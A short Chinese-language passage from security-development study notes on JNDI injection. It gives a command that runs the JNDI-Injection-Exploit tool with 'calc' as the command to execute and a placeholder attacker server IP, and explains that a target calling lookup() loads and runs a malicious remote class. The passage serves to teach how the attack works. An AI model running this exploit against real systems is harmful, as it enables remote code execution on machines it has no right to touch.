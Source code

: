
基于工具自主定义（节省下一个工具编译步骤）：
1. 使用利用工具生成调用地址  
   `java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc" -A xx.xx.xx.xx`  
   （注：`-C "calc"`指定要执行的命令（如打开计算器），`-A`指定攻击者服务器IP）

   ![image-20250813170130548](037安全开发.assets/image-20250813170130548.png)

2. 使用远程调用  
   目标系统调用`lookup()`方法时，会连接工具生成的恶意地址，加载并执行恶意类。
